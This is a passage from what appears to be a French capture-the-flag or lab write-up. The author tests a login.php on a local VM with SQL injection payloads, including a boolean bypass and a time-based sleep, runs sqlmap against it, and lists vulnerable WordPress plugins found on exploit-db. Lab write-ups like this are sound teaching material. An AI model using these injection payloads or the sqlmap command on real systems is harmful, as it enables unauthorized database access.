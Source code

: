 ```bash
```

Je trouve aussi un script `login.php` en recherchant les noms de fichiers.

Ce dernier semble sensible aux caractères spéciaux SQL dans le champ de mot de passe mais au lieu de nous connecter il ne fait qu'affichier `0` ou `1` en résultat.

Ainsi si je rentre `admin` / `admin` ça affiche `0` mais j'obtiens `1` si je rentre `' or '1` comme mot de passe.

Après quelques essais plus poussés le champ `user` est aussi vulnérable : on obtient une temporisation si on tape `admin' or sleep(10) or '`.

Je lance `sqlmap` et en attendant qu'il fasse son job je saute sur le port 443.

Sur ce port on trouve un Wordpress à l'adresse `/wordpress`. Juste en regardant le code source on obtient un bon nombre de métadonnées :

```html
	<script type='text/javascript' src='http://192.168.56.89/wordpress/wp-content/plugins/proplayer/js/swfobject.js'></script>
<!-- All in One SEO Pack 2.2.5.1 by Michael Torbert of Semper Fi Web Design[297,356] -->
<link rel='stylesheet' id='contact-form-7-css' href='https://192.168.56.89/wordpress/wp-content/plugins/contact-form-7/includes/css/styles.css?ver=4.1' type='text/css' media='all'/>
<link rel='stylesheet' id='cart66-css-css' href='https://192.168.56.89/wordpress/wp-content/plugins/cart66-lite/cart66.css?ver=1.5.3' type='text/css' media='all'/>
<meta name="generator" content="WordPress 4.1"/>
<meta name="generator" content="Cart66 Lite 1.5.3"/>
<a href="https://bitnami.com/stack/wordpress/" title="Semantic Personal Publishing Platform">Proudly powered by Bitnami WordPress Stack</a>
```

En cherchant `proplayer` sur *exploit-db* je trouve deux exploits, tous deux pour de l'injection SQL.

Pour `Cart66` je trouve un XSS, un CSRF et encore une faille SQL. Cette dernière requiert malheureusement un compte valide sur le Wordpress.

Pour le `All In One SEO` Pack je ne trouve que des failles XSS.

A ce stade, vu la lenteur du site *exploit-db.com* ces derniers temps, sqlmap a déjà détecté les vulnérabilités dans le script de login :

```bash
$ python sqlmap.py -u http://192.168.56.89/login.php --data "user=test&password=test&s=Submit" --dbms mysql --risk 3 --level 5 --flush-session
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.11.7#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:46:17 /2023-01-02/

[09:46:17] [INFO] flushing session file
[09:46:17] [INFO] testing connection to the target URL
[09:46:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[09:46:17] [INFO] testing if the target URL content is stable
[09:46:17] [INFO] target URL content is stable
[09:46:17] [INFO] testing if POST parameter 'user' is dynamic
[09:46:17] [WARNING] POST parameter 'user' does not appear to be dynamic
[09:46:17] [WARNING] heuristic (basic) test shows that POST parameter 'user' might not be injectable
[09:46:17] [INFO] testing for SQL injection on POST parameter 'user'
```